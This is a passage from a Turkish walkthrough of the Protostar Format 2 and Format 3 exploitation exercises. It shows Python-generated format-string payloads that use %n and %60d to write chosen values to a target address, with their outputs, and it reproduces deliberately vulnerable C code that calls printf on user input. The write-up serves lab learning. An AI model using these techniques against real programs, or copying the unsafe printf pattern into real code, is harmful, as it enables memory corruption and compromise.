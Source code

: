 Beklediğimiz gibi dördüncü sıraya hedef adresimiz geldi. Şimdi sıra bu adrese veri yazmaya geldi. Adresimizin 4. sırada olduğunu bildiğimize göre `%4$n` ile stackde 4. sıraya gidip veri yazabiliriz.
```bash
user@protostar:/opt/protostar/bin$ echo $(python -c 'print "\xe4\x96\x04\x08" + "%x "*10 +"%4$n" ') | ./format2
��200 b7fd8420 bffff524 80496e4 25207825 78252078 20782520 25207825 78252078 20782520 
target is 88 :(
```
İnputun sonuna eklediğimiz `%4$n` ile veri yazdık ancak hedefimiz olan 64'ü tutturamadık. %n kendine gelene kadar yazılan byte sayısını sayıyordu bunu biliyoruz. Bizim hedef adresimiz 4 byte, geriye 60 byte eklemek kalıyor o zaman. Eklediğimiz %x 'leri silelim ve şöyle deneyelim:
```bash
user@protostar:/opt/protostar/bin$ echo $(python -c 'print "\xe4\x96\x04\x08" + "%60d" +"%4$n" ') | ./format2
��                                                         512
you have modified the target :)
```
Adresimizin hemen ardından %60d ekledik. Bunun ne anlama geldiğini [şuradan](https://www.cs.uaf.edu/2017/fall/cs301/lecture/09_25_printf.html) okuyabilirsiniz. Basitçe (verilen değer - değişkenin uzunluğu) kadar boşluk karakteri ekliyor diyebiliriz. Bu sayede 4 byte adres + 60 byte karakter ile 64 karakter yazdırdık ve sonraki %n ile de bunu hedef adrese yazmış olduk.

## Format 3
Kaynak kod:
```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int target;

void printbuffer(char *string)
{
  printf(string);
}

void vuln()
{
  char buffer[512];

  fgets(buffer, sizeof(buffer), stdin);

  printbuffer(buffer);
  
  if(target == 0x01025544) {
      printf("you have modified the target :)\n");
  } else {
      printf("target is %08x :(\n", target);
  }
}

int main(int argc, char **argv)
{
  vuln();
}
```
Bir önceki aşamadan farklı olarak burada bizden beklenen değer değişmiş. Önce nereye nasıl yaıyoruz bakalım.
```bash
user@protostar:/opt/protostar/bin$ echo $(python -c 'print "AAAA" + "%x "*20') | ./format3
AAAA0 bffff4d0 b7fd7ff4 0 0 bffff6d8 804849d bffff4d0 200 b7fd8420 bffff514 41414141 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078
target is 00000000 :(
```